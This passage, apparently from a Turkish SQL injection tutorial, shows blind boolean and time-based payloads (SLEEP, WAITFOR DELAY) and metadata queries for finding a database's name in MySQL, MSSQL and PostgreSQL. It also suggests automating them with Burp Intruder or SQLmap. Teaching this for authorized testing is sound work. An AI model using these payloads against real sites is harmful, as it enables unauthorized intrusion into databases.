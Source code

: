 - Eğer sayfa doğru yükleniyorsa, ilk harf t olabilir.
Bunu karakter karakter deneyerek devam edebilirsin:
sql
```sql
' AND substring(database(),2,1)='e'-- -
```

## Bu yöntemi otomatikleştirmek için Burp Suite Intruder veya bir Python scripti yazabilirsin.

5. Time-Based SQL Injection ile Veritabanı İsmini Öğrenme
Bazı durumlarda hiçbir hata mesajı veya yanıt farkı olmuyorsa, time-based SQL Injection kullanabilirsin.
MySQL için:
sql
```sql
' AND IF(database()='test_db', SLEEP(5), 0)-- -
```

- Eğer sorgu 5 saniye bekliyorsa, veritabanı adı test_db olabilir.
Bunu karakter karakter test edebilirsin:
sql
```sql
' AND IF(substring(database(),1,1)='t', SLEEP(5), 0)-- -
```

MSSQL için:
sql
```sql
' IF(DB_NAME()='test_db') WAITFOR DELAY '0:0:5'-- -
```

## Bu yöntemleri python scripti veya SQLmap ile de otomatikleştirebilirsin.

6. Metadata Sorguları ile Veritabanı İsmini Öğrenme
Bazı veritabanlarında metadata tabloları mevcuttur ve bunları kullanarak veritabanı adını görebilirsin.
MySQL için:
sql
```sql
SELECT schema_name FROM information_schema.schemata;
```

MSSQL için:
sql
```sql
SELECT name FROM master..sysdatabases;
```

PostgreSQL için:
sql
```sql
SELECT datname FROM pg_database;
```
